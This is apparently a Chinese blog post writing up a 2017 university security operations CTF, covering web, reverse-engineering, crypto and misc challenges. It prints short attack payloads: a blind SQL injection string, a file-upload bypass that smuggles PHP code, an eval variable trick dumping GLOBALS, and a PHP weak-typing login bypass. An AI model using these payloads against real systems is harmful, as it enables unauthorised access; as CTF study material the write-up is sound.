 ```yaml
---
layout: post
title: "2017安全运维挑战赛writeup"
date: 2017-11-13
description: "2017高校网络信息安全管理运维挑战赛writeup"
tag: writeup
---
```

跟着朋友打了一下2017的高校运维赛，虽然比赛过程中存在这一些不可描述的东西（比如逃课比赛被老师抓到...等等），总之感谢队友没把我抛弃掉。
比赛末尾主办方让写wp了，写的不是很细，就放到博客上充当一篇博文吧QAQ

### Web
#### Login
用万能密码登录发现姿势错误，然后开始尝试sql盲注
```
Payload：uname=1'^(ord(left(pwd,1))>101)^'0&pwd=1
```
总共30位<br>
可以写脚本也可以试试手注，注到手抽筋<br>
```
fsaoaigafsdfsdubbwouibiaewrawe
```
最后flag
![](/images/2017-11-13/1.png)
```
EIS{SQLI_INJECTIion_blind}
```

#### PHP是最好的语言
[参考链接](http://www.jianshu.com/p/179fa39909f4)<br>
.bak下载源码<br>
![](/images/2017-11-13/2.png)
对着他的payload稍微改了一下
```
EIS{php_th3_b45t_l4ngu4g3}
```

#### 文件上传
![](/images/2017-11-13/3.png)
```
Payload：ext=php&content[]=<?ph&content[]=p%00phpinfo();
```
![](/images/2017-11-13/4.png)
```
EIS{6yp455_with_4rr4y}
```

#### 随机数
![](/images/2017-11-13/5.png)
试了下爆破，神奇的可行，然后就出来了<br>
![](/images/2017-11-13/6.png)
```
EIS{brute_forc3_th3_r4nd0m_s33d}
```

#### PHP代码审计
```
<?php   
error_reporting(0); 
include "flag1.php"; 
highlight_file(__file__); 
if(isset($_GET['args'])){ 
    $args = $_GET['args']; 
    if(!preg_match("/^\w+$/",$args)){ 
        die("args error!"); 
    } 
    eval("var_dump($$args);"); 
}
```
```
Payload：args=GLOBALS
```
![](/images/2017-11-13/7.png)

#### 快速计算
写了个爬虫
有点瑕疵 第二个数如果是三位数的话就会报错

![](/images/2017-11-13/8.png)

#### PHP trick
```
Payload：?gift=&flag=lag=
```
![](/images/2017-11-13/9.png)
RVF{woshiflag}
凯撒解密一下

#### 不是管理员也能login
主要考查php弱类型
查看说明页面拿到源码，貌似之前也再哪里遇到过
用户名的md5前两位是0e，密码的话是反序列化
md5('s155964671a')=0e342768416822451524974117254469
帐号就是 s155964671a了，密码a:2:{s:3:"pwd";b:1;s:4:"name";b:1;}
![](/images/2017-11-13/10.png)
```
EIS{Smi1E_on_YouR_face_And_in_y0ur_heart}
```

### RE
#### IginteMe
![](/images/2017-11-13/11.png)
分析第一步，发现是C++写的
是时候掏出我的IDA了
F5大法好，首先找到了判断关键
![](/images/2017-11-13/12.png)
查看源码
![](/images/2017-11-13/13.png)
然后就是上脚本了
```
list1 = [0x0D, 0x13, 0x17, 0x11, 0x02, 0x01, 0x20, 0x1D, 0x0C, 0x02, 0x19, 0x2F, 0x17, 0x2B, 0x24, 0x1F, 0x1E, 0x16, 0x09, 0x0F, 0x15, 0x27, 0x13, 0x26, 0x0A, 0x2F, 0x1E, 0x1A, 0x2D, 0x0C, 0x22, 0x04,]
a = b'GONDPHyGjPEKruv{{pj]X@rF'
flag = []
for x, y in zip(list1, a):
    flag.append(((x^y) - 72) ^ 0x55)
print (bytes(flag))
```

#### ReverseMe
这个给的程序无法打开真有点伤，不过不影响做题
![](/images/2017-11-13/14.png)
双击定位到了这里
![](/images/2017-11-13/15.png)
寻找交叉引用拿到源码
![](/images/2017-11-13/16.png)
剩下的就是脚本问题了
![](/images/2017-11-13/17.png)

### crypto
#### easy crypto
![](/images/2017-11-13/18.png)
一个对称加密对着给出的文件逆写python脚本：
![](/images/2017-11-13/19.png)

### Misc
#### 隐藏在黑夜里的秘密
看到有密码而且没发现提示，在想会不会是伪加密
![](/images/2017-11-13/20.png)
查看图片发现惊喜
![](/images/2017-11-13/21.png)

#### 签到题
扫描得flag


可能写的不是很详细，具体大佬们可以联系我